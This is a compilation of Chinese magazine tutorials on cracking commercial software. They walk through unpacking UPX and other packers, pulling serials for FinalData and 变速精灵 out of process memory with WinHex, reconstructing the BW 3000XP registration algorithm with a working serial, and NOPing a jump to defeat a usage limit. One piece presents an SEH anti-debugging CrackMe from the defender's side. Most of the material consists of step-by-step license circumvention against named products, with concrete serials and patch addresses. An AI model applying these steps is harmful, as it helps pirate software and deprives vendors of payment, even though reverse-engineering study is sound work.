我今天只用到了3个软件，那就是Hex Workshop 4.2、UPXshell和PEiD v0.92，我相信大家都知道这3个软件是干什么，我在这里就不再啰嗦了。

一开始我破解这个软件的步骤和平时练习的步骤是一样的，但是我闷了3天也没有闷出来，在第4天晚上我又看了看这个软件的目录，它的登录的loading.exe只不过是一个幌子，是为了让你在网络猪注册一个账户(也许这也是一个提高网站访问量的方法)，我把里面的文件都看了一遍，最后我把目标锁定到了Zuma.lnk这个文件上。大家看了这个后缀是不是知道是什么了？对，这是一个快捷方式，可是你有没有注意他的大小呢？如图1所示。


图1

一个是Zuma.lnk，另一个是Internet的快捷方式，人家才1k，而那个Zuma.lnk有524k，我不知道你们平时有没有见过这么大的快捷方式，反正我是没有见过！我猜想这里一定有问题，于是就拿出了W32dasm静态追踪，可惜什么都没有跟出来，于是我就反思自己的这个过程，我发现自己破解软件最忌讳的一步——不查壳，于是我就拿出了PEiD来查一下这个软件有没有加壳，结果如图2所示。

www.hacker.com.cn
2008精华奉献本 下册


加了UPX的壳，我说我怎么没有跟出来呢。既然知道它加壳了，我们就给它脱掉这层“衣服”，拿出我的UPXshell脱、脱、脱、脱掉！如图3所示。


脱壳成功！我们看看脱了壳的这个游戏有多大，如图4所示。


这个游戏的原来的大小出来了：1.260k。到了这里，这个游戏的情况我大概都知道了，再打开W32dsm打算再次跟踪——这时突发奇想：它后缀不是.exe的，如果我把它的后缀改成exe说不定就可以玩了呢？不过在改的时候又遇到了一个问题：我想直接该，于是我把文件夹选项里的隐藏已知文件类型的扩展名去掉了，可是这个文件没有显示它的扩展名，怎么办？找一个修改扩展名的程序不就可以了么？可是我家里没有上网怎么找？没有办法了，正在冥思中……电话响了，该去吃饭了！

一顿饭之后，我又坐到了电脑前面，这时我看到了曙光——Hex Workshop 4.2，我用这个文件把Zuma.lnk文件装载，然后什么都没有动，就直接保存成.exe的文件，回到祖玛的那个目录里看到了和loading.exe图标一样的文件，如图5所示。

好了我就试着运行了我们保存的那个exe文件，哈哈！成功进入游戏！


最后说几句废话(icefire 大家看的时候一定要保证没有在吃饭、喝水、吃口香糖、槟榔什么的，否则后果自负！！！)：以前我也写过几篇破解文章，可能是我的功力不够，没能发表，但我不能气馁，要朝着自己的目标奋斗、前进，不要因为一点小的挫折就一蹶不振。再有就是我们在观察东西的时候要用心去观察，这样才能看出与众不同的东西来，例如今天的这个软件，如果你是没有注意那个.lnk的文件，除了那些破解大师们你能找出它的破绽么？！看小女子的思维是多么独到！嘿！最后谢谢黑防给我一次展现的机会！期待稿费、期待扫荡！

Icefire：在调试过程中，我们常常需要设置断点，但SHE(结构化异常处理)配合断点进行跟踪的方法或许大家都不太熟悉吧？这种方法可以在注册算法的跟踪、调试中得到不错的应用，读者朋友们不妨一起来学习一下。

适合读者：逆向爱好者
前置知识：汇编、系统底层知识

### 单步异常检测


文 / 图 RoBa

SEH大概算得上是Windows下公开的秘密了。我们都知道用调试器(下面的介绍都以当前流行的调试器OllyDbg为例)可以设置断点，那么当设置断点时调试器究竟是怎样工作的呢？这要分几种情况了，一种是代码断点，即Cracker在某行代码上下断点，这时调试器自动把这行代码的首字节改为CC(即INT3中断，这个修改在OD中不会显示)，这样每当程序运行到这里都会产生中断，而调试器可以接管这个中断，从而实现对程序的控制；另一种是内存断点，即当程序对某处内存有操作(读或写)时产生中断，这是直接利用CPU的调试寄存器DRx来完成的。还有一种不太像中断的“中断”，即单步中断，也就是说当你在调试器中选择“步过”某条指令时，程序自动在下一条语句停下来。这其实也属于一种中断，而且可以说是最常用的一种形式了。当我们需要对某段语句详细分析，想找出程序的执行流程和注册算法时必须进行这一步。

SEH即结构化异常处理(Structured Exception Handling)，简单地说就是当程序出现错误时，系统把当前的一些信息压入堆栈，然后转入我们设置好的异常处理程序中执行，在异常处理程序中我们可以终止程序或者修复异常后继续执行。异常处理分两种，顶层异常处理和线程异常处理，下面要用到的是线程异常处理。具体做法是，每个线程的FS:[0]处都是一个指向包含异常处理程序的结构指针；这个结构又可以指向下一个结构，从而形成一个异常处理程序链。当发生异常时，系统就沿着这条链执行下去，直到异常被处理为止。我们可以使FS:[0]指向我们自己写的异常处理程序，从而自己处理异常。

下面我们详细地看一下这种中断的实现方法：

图1是80386以上的INTEL CPU中EFLAGS寄存器，其中的TF标志位表示单步中断。当TF为1时，CPU执行完一条指令后会产生单步异常，进入异常处理程序后TF自动置0。调试器通过处理这个单步异常实现对程序的中断控制。持续地把TF置1，程序就可以每执行一句中断一次，从而实现调试器的单步跟踪功能。


讲到这里，不知聪明的你看出什么问题没有：如果我们的程序本身就含有对单步异常的处理程序会怎么样呢？笔者的实验是，OD会不理睬我们程序自己的单步异常处理程序而自顾自地把异常处理接管了。这其实就给了我们一种很巧妙的方法，我们可以自己把TF置1，然后把注册算法中十分关键的运算放在我们程序自己的单步异常处理程序中，这样当程序在正常条件下执行时，一旦产生单步异常就会转到我们自己写好的异常处理中继续进行而不会受到影响，如果程序被调试，而Cracker选择了按F8步过这段程序，那么这时产生的单步异常会被调试器忽略，这样那些关键的代码就得不到执行，从而产生令人十分迷惑的结果。

好了，说了这么多，下面看一个实际的例子（MASM32 8.2下编译通过）：

```asm
.386
.model flat,stdcall
option casemap:none
include    windows.inc
include    kernel32.inc
include    user32.inc
includelib kernel32.lib
includelib user32.lib

MY_DLG      equ 1000
IDC_INPUT   equ 1001
IDC_OUTPUT  equ 1002
ID_OK       equ 1003

.data
szTit       db 'SEH CrackMe!',0
szGood      db 'Good Job!',0
szBad       db 'You Failed, Try again!',0

.data?
num         dd ?
pSuc        dd ?

.code
singlestepHandler proc c pExcept,pFrame,pContext,pDispatch
    pushad
    assume esi:ptr EXCEPTION_RECORD,edi:ptr CONTEXT
    mov esi,[pExcept]
    mov edi,[pContext]
    cmp [esi].ExceptionCode,STATUS_SINGLE_STEP
    jnz @continue               ;检查是否为单步异常
    inc [edi].regEax            ;EAX = EAX + 1
    mov ebx,[edi].regEip
    cmp byte ptr [ebx],90h      ;检查下一个字节是否90(NOP)
    jz @finish                  ;如果遇到NOP则结束跟踪
    or [edi].regFlag,100h       ;否则继续对TF置1
@finish:
    popad
    mov eax,ExceptionContinueExecution
    jmp @exit
@continue:
    popad
    mov eax,ExceptionContinueSearch
@exit:
    ret
singlestepHandler endp

DlgProc proc hWnd:HWND, uMsg:UINT, wParam:WPARAM, lParam:LPARAM
    .if uMsg == WM_CLOSE
        invoke EndDialog,hWnd,0
    .elseif uMsg == WM_COMMAND
        mov eax,wParam
        .if eax == ID_OK
            xor eax,eax                 ;EAX清零
            pushfd                      ;把EFLAGS压栈
            or dword ptr [esp],100h     ;因为TF在EFLAGS的第9位
            popfd                       ;EFLAGS出栈，用这种方法把TF置1
            inc eax                     ;从这里开始“单步跟踪”
            inc eax
            inc eax
            dec eax                     ;对EAX进行一些操作，如果没有异常EAX=2
            nop                         ;用NOP标志跟踪结果
            mov [num],eax
            invoke GetDlgItemInt,hWnd,IDC_INPUT,addr pSuc,TRUE
            .if [num] == eax            ;与输入进行比较
                invoke SetDlgItemText,hWnd,IDC_OUTPUT,addr szGood
            .else
                invoke SetDlgItemText,hWnd,IDC_OUTPUT,addr szBad
            .endif
        .endif
    .else
        mov eax,FALSE
        ret
    .endif
    mov eax,TRUE
    ret
_DlgProc.endp

start:
    assume fs:nothing
    push offset singlestepHandler
    push fs:[0]
    mov fs:[0],esp    ;安装我们自己的异常处理程序
    invoke GetModuleHandle,NULL
    invoke DialogBoxParam,eax,MY_DLG,NULL,addr DlgProc,NULL
    pop fs:[0]
    add esp,4    ;卸载异常处理程序
    invoke ExitProcess,0
end start
```

该程序如果在正常情况下运行，正确的注册码应该是6，见图2所示


而如果用OD调试，却会发现正确的注册码是2，如图3所示。

怎么样？如果是一个菜鸟Cracker，准会晕头转向了吧？

为什么会出现这种令人迷惑的结果呢？下面我们来仔细分析一下。在对话框消息处理过程中，首先用OR运算然后POPFD来设置TF位，这样在正常情况下，执行完一条指令后就进入我们写的异常处理程序，在异常处理程序使EAX加1，然后继续置TF位为1，这样每执行一句都会中断，直到执行到NOP这一句后不再继续“单步跟踪”，在消息处理过程中EAX加3减1，结果应为2，但因为共执行了4条指令，每次在异常处理程序中EAX都会加1，因此正常情况下结果应为6。如果用OD等调试，因为不会执行异常处理程序，结果就为2。这只是一个最简单的例子，如果我们把十分复杂的算法判断都写进单步异常处理程序中，是不是就会让Cracker很郁闷呢？


以上只是一个简单的例子，我在这里只是提供一种思路，具体怎样把注册算法与异常处理程序巧妙结合起来，以起到最佳的保护的效果，就要靠聪明的读者你自己了。如果你有什么意见建议欢迎与我联系robaggio269@163.com。

Icefire：所有的事物都有它对立的一面，如果没有了对立，那么事物将无法生存，就像软件的加密与解密，有加密就会有解密，它们是永远不会孤立存在的，无论再优秀的加密软件，也会在很短的时间内被优秀的Cracker破解。我们不得不承认软件加密技术在不断地提高，好多程序员为了维护自己的软件不受他人的侵犯，便采用了先进的加密算法，而且也有人利用先进的反跟踪、反调试技术来阻止Cracker的非法破解，正因为如此，Cracker也在飞速地进步，他们的目的就是挑战一切别人认为办不到的事！

适合读者：破解爱好者、程序员
前置知识：汇编知识

### 巧用WinHex征服FinalData

文/图 小宝

写这篇文章的目的其实就是想为大家介绍一种利用WinHex破解具用反跟踪、反调试技术的软件的方法，也许这个方法并不是一个通用的解法，但我的最终出发点还是想教给所有初学者一些破解的思路。

今天为大家推荐的是一款特别优秀的数据恢复软件——FinalData Enterprise，它最大的优点在于它不仅可以恢复所有误删除的文件，而且还可以恢复那些我们彻底删除的文件（就是执行了清空回收站后的文件）。如果我们拥有这个软件，我们再也不必担心找不回那些被删除了好久的重要文件了。而且它的使用方法也很简单，不需要你有多高的电脑技术就可以轻而易举地掌握它。

#### 软件功能介绍

软件功能虽好，但美中不足的是它偏偏是一款注册版软件，需要我们成功注册才可以正常使用，话又说回来了，要想得到正确的注册码只有两个办法，一是花


钱二是自己动手破解。选哪个？我看就不用我多说了吧，自己动手吧！

### 破解过程

不用我说大家也应该知道我们需要哪几个破解工具了：kWdsm、PEID、trw2000。在破解前我们还是要搞清楚软件的注册方法，那样才可以做到事半功倍。运行主程序，我们并没有看到程序的主界面，而是直接弹出了一个注册框，如图1所示，不管它，先随便输入一些内容，name:ny:company: ny: serial: 123456。好了点“OK”，果然弹出了一个错误提示框，如图2所示。看来连试用一次的机会也没有了。


我们还是有望的。先看看它是否加了壳，不用大家太辛苦，它并没有加任何壳，如图3所示。


那我们就可以大张旗鼓地进行静态反编译了，拿出kWdsm，加载主程序……糟糕，它似乎早有防备，如图4所示。


加了反调试技术，看来我们只有进行动态跟踪了。拿出trw2000，再一次加载主程序，什么！不会吧！也不能动态跟踪分析，如图5所示。


我们知道大部分的程序在它进行软件注册的时候，在我们输入了一个错误的注册码的同时，它要将这个错误的注册码和它已经算好的正确的注册码进行比较，如果不匹配就会弹出一个错误的提示框来，这也就是我们所说的注册码的明文漏洞，如果这个软件存在这个漏洞，我们就可以利用诸如WinHex之类的工具找到正确的注册码了。为了证实我的推断是正确的，我们还是用事实来证明一下吧。

利用注册码的明文比较破解软件的方法，我想大家一定都很清楚了，这里就不多说了。我们要再一次启动主程序，然后在出现注册对话框的地方输入刚才的内容，在弹出错误提示对话框的时候，一定要记住，千万不要点“确定”按钮，那样我们就前功尽弃了。好了，现在可以运行WinHex了，如图6所示。


然后单击“打开RAM”按钮，接着在虚拟内存中选择“Finaldata”，如图7所示。


然后选择“整个内存”，如图8所示。切这里要选“整个内存”，而不是“主要内存”，那样你会无功而返，听我的没错。

然后我们在窗口的菜单栏中选择“查找”命令，输


入我们刚才填的那个注册码“123456”，现在我们做的就是慢慢地按F3，查找我们刚才输入的注册码，也许你在查找的同时会弹出两个错误提示框（如图9、图10所示），不用管它，我们只要按下“确定”，继续查找，如果没有找见就多试几次，你一定会和我一样找到正确的注册码。


怎么样，是不是在经过了儿次反复的查找终于看到了刚才我们输入的那个用户名和注册码了，还有那个错误的提示框（如图11所示），只要你找到了这些数据，就说明我们的猜测已经有了一半的答案了，我们试着往下滚动鼠标，怎么样，看到了什么，你一定会很惊讶吧，是不是有一串数字，如图12所示。


错，你不是在做梦，你的眼也没花，那就是我们要找的正确注册码。

现在我们再用这个正确的注册码进行注册，已经可以正常使用这个软件的所有功能了，怎么样，是不是很好用？现在你不用再发愁误删了重要的文件而被你的头儿臭骂了吧。

在我成功的破解了这个软件的几天后，我发现了一个有趣的现象，就是如果我们要是把注册表中的HKEY_LOCAL_MACHINE\Software\FinalData\ FinalData\2.0.1.1028下的所有键值都删除了，如图13所示。那么这个软件就又回到了未注册的版本，那是因为当我们成功的注册了本软件后，程序会自动将这些数据保存在注册表中，当每一次启动程序的时候，它都会检查这些数据，如果正确就启动程序，相反，如果不正确就会弹出注册框。从这一个发现我们可以很清楚地知道，在以后的动态反编译破解中，我们可以下一个读取注册表键值的函数，那样就可以很快的找到注册码的算法，和它的藏身之处。


通过这次对一个具用反跟踪、反调试技术的软件的破解后，我们发现破解软件的方法有很多，要想在最短的时间里破解一个软件，我们就要找到它的破解的关键，这样才可以事半功倍，也只有这样我们才能更好的掌握破解的技巧，才会有更大的提高。

Icefire: 相信Crackers们破解的程序已不计其数,但大多都是一些用VB、VC、Delphi所编写的程序,说到破解VFP编写的程序应该不会太多吧?一些初学破解的朋友,遇到VFP编写的程序破解起来就会吃力一些了,还好,本文作者就遇到了一款利用VFP编写的程序——BW 3000XP商业管理系统(超市版),而且更幸运的是一举将这个软件成功破解。

适合读者:破解爱好者
前置知识:工具操作


### 菜鸟小试
### VFP程序的破解
文/图 小宝

#### 软件介绍与破解工具

BW 3000XP商业管理系统(超市版)是一款综合的商业管理软件,它具有单据管理、信息档案、报表中心、图表分析等功能。

破解工具:PEiD、W32dsm10、FoxTools2.2(VFP反编译程序)。

#### 软件破解过程

运行要破解的程序,选择“注册”,在弹出的注册窗口中输入公司名: nyyuan,注册码 654321,然后单击“确定”,弹出“注册失败,请与软件供应商联系。”的错误提示(如图1 所示)。


记住这个错误的提示,这对我们以后反编译有用,关闭程序,拿出PEiD检查程序是否加壳,还好程序并没有加任何壳(如图2 所示),显示是用VC 6.0编译而成的。


接下来拿出W32dsm10对程序进行反编译,然后选择“参考”——“串式数据参考”,找见前面出现的错误提示,这时也许让大家失望了,里面根本就没有那个错误提示,因为你现在才发现原来程序是用VFP编写的(如图3 所示)。

到这里可能有些朋友不知道该怎么办了,别急,在


这里我可以给大家介绍一款专门破解VFP程序的工具——FoxTools2.2,也许有的朋友是第一次用,没关系,接下来我就教给大家怎样使用FoxTools2.2破解这个VFP程序。

运行FoxTools2.2,选择要破解的程序,然后一定要选中“反编译后创建生成项目文件的rebuild.prg”(如图4所示)。原因是选中了它在反编译的同时也会将反编译的所有文件都保存下来,这样我们才可以对软件进行破解。


反编译完我们就可以打开程序所在的目录,你会看到多了好多以.SCX和.SCT命名的文件,好了,破解就从这些文件下手。我们看看这些文件里是否有相关生成注册码算法的,怎么样是不是看到了一个名为“REGISTER.SCT”的文件,用记事本打开它,发现正是我们要找的生成注册码算法的代码。以下代码是进行注册码算法的重要代码:

```
regi_aa=allt(thisform.text1.value) `regi_aa为我们输入的公司名
regi_cc=0
```

## SECRET OF CRACK

栏目编辑)icefire icefire@hacker.com.cn

```
for i=1 to len(regi_aa)
    regi_cc=regi_cc+asc(substr(regi_aa,i,1))  &&通过输入的公司名来算出另外一个参数regi_cc
endfor
regi_dd=0
for j=1 to len(allt(str(regi_cc)))
    regi_dd=regi_dd+int(val(substr(allt(str(regi_cc)),j,1)))
    *通过上面算出的regi_cc来算出regi_dd.
endfor
if thisform.text2.value=allt(str(99999999-int(val(allt(str(regi_cc)))+allt(str(regi_dd)))*3-613+85999938))  &&这一行便是通过regi_cc和regi_dd来算出最终的注册码.
```

下面的代码是通过系统目录下的bwxxcs.DLL文件对我们输入的注册码进行比较,如果相等就显示注册成功,反之失败.

```
if file(syspaths+'\SYSTEM\bwxxcs.DLL')=.T.  &&比较bwxxcs.DLL文件
    if not used('bwxxcs')
        use syspaths+'\SYSTEM\bwxxcs.DLL' in 0 shared
    endif
    select bwxxcs
    replace gsmc with allt(thisform.text1.value),tdj with date(),tzc with tdj+thisform.text3.value,yn with '@',lx with iif(thisform.text2.value=allt(str(99999999-int(val(allt(str(regi_cc))+allt(str(regi_dd)))*3-613+85999938)),'O','N')
    gsname=allt(thisform.text1.value)
    if thisform.text2.value=allt(str(99999999-int(val(allt(str(regi_cc))+allt(str(regi_dd)))*3-613+85999938)))
        custom_lx='O'
    endif
    
    tregi_aa=allt(bwxxcs.gsmc)
    tregi_bb=""
    tregi_cc=""
    for i=1 to len(tregi_aa)
        tregi_bb=tregi_bb+allt(str(asc(substr(tregi_aa,i,1)))+58*2))
    endfor
    
    this_sn=""
    this_sn2=""
    FOR I=1 TO len(tregi_bb) step 2
        this_sn=this_sn+SUBST(tregi_bb,I,1)
    ENDFOR
    
    FOR I=2 TO len(tregi_bb) step 2
        this_sn2=this_sn2+SUBST(tregi_bb,I,1)
    ENDFOR
    
    this_sn=this_sn+this_sn2
    that_sn=""
    FOR I=1 TO len(this_sn)
        that_sn=that_sn+iif(type('SUBST(this_sn,I,1)')='N',ALLT(STR(INT(VAL(SUBST(this_sn,I,1))+1))),SUBST(this_sn,I,1))
    ENDFOR
    that_sn2=""
    FOR I=1 TO len(that_sn) step 3
        that_sn2=that_sn2+SUBST(that_sn,I,1)
    ENDFOR
    
    hat_sn3=""
    FOR I=2 TO len(that_sn) step 4
        hat_sn3=hat_sn3+SUBST(that_sn,I,1)
    ENDFOR
    
    that_sn=that_sn2+that_sn3
```

```
tregi_cc=allt(subst(that_sn,1,20))
replace gsmc with gsname,sysname with tregi_cc in parts
=messagebox('恭喜你,注册成功!','请将您的公司'+chr(13)+'名称及注册码记录下来,以便下次使用!',48,'提示')

if used('bwxxcs')
    use in bwxxcs
endif

thisform.text2.value=''
thisform.text2.value=''
thisform.text2.setfocus

tshowreg1=.f.
tshow_reg1=.f.
tshowreg2=.f.
tshow_reg2=.f.
tendtime=.f.
tdemover=.f.
thisform.release
endif
else
    =messagebox('注册失败!请与软件供应商联系!',16,'提示')
    thisform.text2.setfocus
endif
```

#### 总结算法

现在我们来看一下注册码到底是怎样产生的。

- 将所输入的公司名的每一个字符转换成相对应的ASCII码,然后进行相加,得出的结果为regi_cc的值。例如 我输入的公司名为nyyuan,那么转换后的ASCII码依次为110; 121; 121; 117; 97; 110,相加得到regi_cc = 676。
- 将regi_cc的各位相加,所得的值为regi_dd=19。
- 将regi_cc与regi_cc合并为一个数67619。
- 然后带进公式:

```
thisform.text2.value=allt(str(99999999-int(val(allt(str(regi_cc))+allt(str(regi_dd)))*3-613+85999938))
```

算出最后的注册码为: 185796467。

现在我们用公司名: n y y u a n 。 注册码: 185796467。再一次进行注册,是不是已经注册成功了(如图5所示)。其实通过上的代码我们可以知道,软件将我们输入的注册信息放在系统目录下的一个名为bwxxcs.DLL的文件里,如果我们将这个文件删除了,那么程序又变成未注册的版本了。


通过上面的文章,和大家讨论了一下使用FoxTools2.2来对VFP程序进行反编译的方法,然后通过得到的反编译文件找到注册码的算法,最终破解成功。其实有关VFP程序的破解思路还有很多,在这里就不一一介绍了,希望此文能抛砖引玉!

## SECRET OF CRACK

栏目编辑：icefire icefire@hacker.com.cn

Icefire: 变速精灵是一款强大的系统速度修改软件，通过它可以轻易地控制系统运行速度。如果不注册该软件只能使用15次，不过我们可以通过简单的WinHex操作，将它轻易破解。

适合读者：破解爱好者、游戏迷
前置知识：WinHex基本操作

### 让猛壳见鬼去
### ——用WinHex破解变通精灵1.60
文/图 小宝

昨天朋友求我帮他破解变速精灵1.60，说是有人用它可以控制泡泡堂游戏速度，是真的吗？看他可怜的样子还是帮他一把吧，谁让我们是最好的哥们呢。

在朋友的催促下，从网上下是这个所谓的法宝，个头不大，只有几百k（变速精灵1.60：http://www.a5d.com/SoftView/SoftView_31.asp）。先运行一下程序，直接弹出一个注册窗口，如图1所示。

注册费要28元，如果不注册的话只能用15次。不管那么多了（朋友在旁边恶狠狠的看着我），单击“注册精灵”，先随便注册一下，用户名：nyyuan；注册码：654321。弹出了错误的提示框，如图2所示，看来爆破就可以了。


在破解前还是喜欢用PEiD查一下软件是否加壳，经过查找发现软件加了ASProtect1.1b，如图3所示。


据说这是一个相当强的猛壳，很少有人可以顺利地将它脱掉，更何况我这种菜鸟了。怎么办，如果不脱壳就没办法进行爆破了，那就看看有没有专脱工具。找了一堆，不是提示脱不了，就是脱了后不能正常打开运行，手工修复也没有成功。就在我准备放弃的时候，我想起一件事，记得以前用WinHex找到了经过加壳的“幻影2003” 的注册码，那为何不再试试用WinHex找找，说不定会有意外的收获呢？

再一次注册程序，注册信息还是填写上面的内容，点击确定后立即运行WinHex，选择“打开RAM”，如图4所示。


然后双击变速精灵进程并选择“主要内存”，如图5所示。在出现的窗口中选择“查找”，输入前面的注册码：654321。经过两次查找，是不是看到了刚才输入的注册码？别急，再往下看，在不远处是不是看到了一些数字串，有一串很长的，挨着下面有两


www.hacker.com.cn
2006精华本 下册
黑客X档案


## SECRET OF CRACK

栏目编辑：icefire icefire@hacker.com.cn

个短的数字串，如图6所示。


图6

那这些数字串会不会就是我们要找的注册码呢？为了证明那是事实，我决定一个个试，经过多次的注册，我终于找到正确的注册码了，那就是ca4c80e1525486c8，用这个注册码再一次的进行注册真的成功了，如图7所示。

重新运行一次程序，注册提示框已经不见了，而且


图7

程序的标题栏清楚的看到了“已注册”的字样，如图8所示。

又让朋友运行了20多次，程序依然可以正常使用，而且我发现就是将软件卸载了重装一次，不用注册软件已经是注册版了。到底是什么原因我并没有仔细研究，还是留给其他喜欢破解的朋友吧。


图8

从破解完这款软件之后,我们不难发现,其实有的软件加了壳后依然可以在不脱壳的前提下得到软件的注册码,所以,只要灵活熟练地使用各种破解工具,加上一定的破解知识,软件破解并不难!

适合读者: 破解爱好者,程序员

前置知识: 汇编基本阅读能力

### 风云谷鼠标键盘精灵

文/图 小宝

现在软件作者的加密水平可谓是越来越高了,不是在加壳上下功夫,就是在加密算法和注册码检测上绞尽脑汁,这不,今天就让我碰到了一款这样的软件——风云谷鼠标键盘精灵。

风云谷鼠标键盘精灵的功能有点儿类似于按键精灵,它可以记录下你工作时鼠标和键盘的每一个动作,而且在操作上又比按键精灵方便,所以深受大家的喜爱,但美中不足的一点就是,如果不注册本软件的话,它将在使用次数上有所限制,我们只可以使用20次,为了能够解除次数上的限制,我决定破解这款软件。

### 软件注册原理

在破解前我们还是应该先搞清软件注册的流程,好了,废话少说。运行软件,单击软件下方的“注册”按钮,弹出注册框,在用户名和注册码中随意填入一些数字,这里就填写用户名为:nyyuan;注册码为:654321,然后单击“注册”,弹出了一个对话框。如图1 所示。

这个对话框和我们平常见到的不太一样,它并不是提示我们输入的注册码有误,而是提示软件的注册信息已保存,重启后再进行检测。其实这种软件注册方式也


工具很容易的脱去此壳。现在就可以利用kWdsm进行反编译了，还是选择“参考”->“串式数据参考”命令，来看看有没有重要的破解线索，经过查找有一个字符串引起了我的注意，如图3所示。


这也让我想起软件是有时间的限制的，那我们就从这个提示动手吧。
再一次的运行软件，直到软件提示刚才找到的那句提示，还好，没运行了几次就弹出了那个可爱的对话框了。如图4所示。
那让我们再想想，软件一定有一个记录使用时间的数据，它一定在注册表中（其实，如果你仔细的话，在串式数据参考中已经看到了一些注册表的数据）。那我们就打开注册表来找找看，果然是这样的，注册表中保存了我前面输入的用户名和注册码，还有一行数据，不用我说你也应该知道它的作用是什么了吧。如图5所示。


它就是用来记录使用次数的，一共有20个0，也就是只能使用20次，知道这个，有的朋友一定会说：“我们将这个数据改为1个0，那不就又回到刚开始了吗？”这个想法是对的，但是这样的改来改去也太麻烦了，所以我们还是来个彻底的破解。
好了，说了这么多，还是回到kWdsm中来，双击刚才找到的那段字符串，代码停在了这个地方。如图6所示。


那我们就看看有没有一个跳转可以跳开这句提示，还不好找，但是你会发现，修改了这个跳转，再一次运行软件，那个提示过期的对话框还是没有去掉，那是怎么回事？难道不止一处有这个提示吗？经过查找，果然和我想的一样，一共找到了6处这个同样的提示，那怎么办，也不能一个一个的改吧，通过判断，我想一定有一个是关键的代码，经过我仔细的查找，我发现有一处和其他5处不同，如图7所示。


我们看到了它记录了刚才在注册表中看到的数据，所以，我断定这一处才是破解的关键所在。那好，再看看有没有什么跳转的语句，还好，很容易就找到了跳转语句。如图8所示。
我们只要将004652EA处的跳转NOP掉就可以从00465301处直接跳过提示语句了。
赶快重启一次软件，怎么样，那个对话框是不是不

## SECRET OF CRACK

}栏目编辑}icefire}icefire@hacker.com.cn


见了,而且更让我们兴奋的是,原来窗口下面的那个注册按钮也不见了,如图9所示。
软件也可以正常的使用了,说明软件已经注册成功了,那好,为了彻底地把这个软件的注册思路搞清楚,我们还是打开注册表,找到保存在里面的记录时间的数据,如图10所示。

现在是不是终于明白了?现在记录时间的数据变成了一个0,而且经过多次的使用,那个数据始终不变。
虽然我们没有找到软件最终的注册码,但是我们同样破解了软件,而且更重要的是真正的理解了重启后注册码检测程序的破解方法,其实软件破解的方法有许多种,但破解的思路其实都是一样的,所以,要想提高自己的破解水平,最重要的是在破解中要掌握破解的方法。
软件下载地址: http://www.skycn.com/soft/22080.html

适合读者: 程序员,系统爱好者
前置知识 C/C++

### 手脱北斗程序压缩壳

文/图 小宝

每一次拿到新一期的《黑客防线》后,总是要先迫不及待的打开光盘,寻找自己喜欢的工具,这一次也不例外,果然又有意外的收获,发现了一款国内最优秀的压缩软件-北斗,这是一个为Windows下的32位、64位可运行文件减小体积的压缩器,而且当使用过后,你会惊讶地发现它的压缩比可以超过50%,远远地超过了同类的压缩软件,如我们常见的upx、winzip等。所以,这么好的软件不用那就太可惜了。
作为一名Cracker,遇见一个新的压缩壳都不会轻易的放过,现在有了北斗程序压缩壳自然不会放过了。

#### 脱壳工具

Ollydbg v1.10、ImportREC、PEiD、LordPE
ESP定律也称"堆栈平衡原理",就是通过关键的ESP值来快速定位程序入口地址的方法,下面我们就用实例来说明何为ESP定律。

#### 脱壳过程

在脱壳前我们还是先来了解一下北斗程序压缩的壳是什么样子,用PeID可以很清楚的看到北斗程序压缩壳的结构。如图1所示。知道了壳的结构就可以放心的脱壳了。


用Ollydbg载入主程序,然后通过"选项"……"调试设置"菜单忽略所有的异常(这对我们后面的分析有帮助。如图2所示。
载入程序,程序会自动断在此处。如图3所示。不用管它,接着按下两次F9键,让程序自动运行,这时代码停在如图4所示。
通过这行代码,我们可以清楚地看到堆栈中ESP值为0012FFA0(右边红字)。这个ESP值就是我们前面所说的ESP定律,如果你经常用ESP定律对程序脱壳,你就

投稿信箱: dcc@hacker.com.cn
2006精华奉献本 下册 295

## SECRET OF CRACK

栏目编辑：icefire icefire@hacker.com.cn


图2


图3


图4

会发现这个值并不是一定的，所以，准确的查找ESP值是脱壳的关键。找到了ESP值，接下来就用这个ESP值下一个硬件断点hr 0012FFA0，然后按下F9，继续运行程序，代码停在如图5所示。
看到这段代码意味着离程序的入口点不远了，这时连续两次按下F8程序终于来到了入口点，如图6所示。
怎么样，是不是很轻松的就找到了入口处，那还等什么，拿出LordPE赶快完全dump程序。如图7所示。
通过上面的脱壳，我们就得到了一个以dump为文件名程序，但是你会发现它还是不能正常运行，这主要是因为程序在脱壳后被打乱了所有的PE列表。所以，要想使脱壳后的程序可以正常运行，还得利用ImportREC来重建PE列表。


图5


图6


图7

在重建PE列表之前先运行未脱壳的程序，然后接着运行ImportREC，在ImportREC进程中找到未脱壳的程序，如图8所示。


图8

www.hacker.com.cn
2008 精华奉献本 下册

在窗口下方的OEP中填上刚才找到的入口地址000248AF（004248AF 00400000），然后单击“IAT AutoSearch”，如果弹出提示框，如图9所示。就说明这个入口点是正确的。


接下来就可以重建列表了，单击“Get Imports”开始重建列表，我们可以从“Imported Founctions Found”中观察重建的结果。如果窗口中所有显示的项都为Valid：YES，那么就表示重建列表成功，可是我们发现窗口中最后一项为Valid：NO，也就是说在这一项中出现了错误。如图10所示。


要想解除这个错误，我们可以在出错的项目上单击鼠标右键，选择“Delete thunk（s）”，这样就修复了刚才的那个错误。如图11所示。


现在我们就可以进行修复了，单击“Fix Dump”按钮完成修补。运行修复后的程序已经可以正常的运行了，最后再用PEID检查一下，原来是用VC编写的。如图12所示。


通过这篇文章，我们学会了利用ESP快速查找程序入口点的方法，学会了怎样对脱壳后的程序进行PE列表的重建和修复，但最重要的还是通过自己动手举一反三，这样才能达到熟练的脱壳技能。

适合读者：破解爱好者，程序员
前置知识：汇编基本阅读能力

### 我用真情换此
#### ——超级网管大师2005破解手记

文/图 laoxuetong

#### 软件功能自述

超级网管大师2005（英文名称SuperNet Master2005） 适用于企业、学校、工厂、社区、网吧等网络管理，不需客户端。用它管理3台计算机，且完全免费，没有时间与功能限制。SuperNet Master2005采用多线程设计扫描速度快、操作简单、功能强大，它是广大网络管理员的得力工具，是一款专业的网络管理、网络监控软件，只需局域网内的一台普通机器上运行，不需要安装客户端，SuperNet Master2005具有强大的扫描能力，能多网段多线程同时扫描网络内所有在线计算机，包括计算机名、工作组名、IP地址、MAC地址等重要信息，并将信息保存为文本文件。SuperNet Master2005可以跨网段扫描。可穿透各用户防火墙，监控和管理整个网络所有计算机上网和上机情况。根据时间规则对网络内的机器分配上网时间，进行上网 限制管理。能进行IP地址与MAC地址绑定，防止IP地址盗用。能自动搜索并查看局域网内所有机器的当前状态，当前用户名等。

过分配机器上网权限,管理员就可以很轻松实时监控整个局域网，限制用户违规上网。

### 注册算法

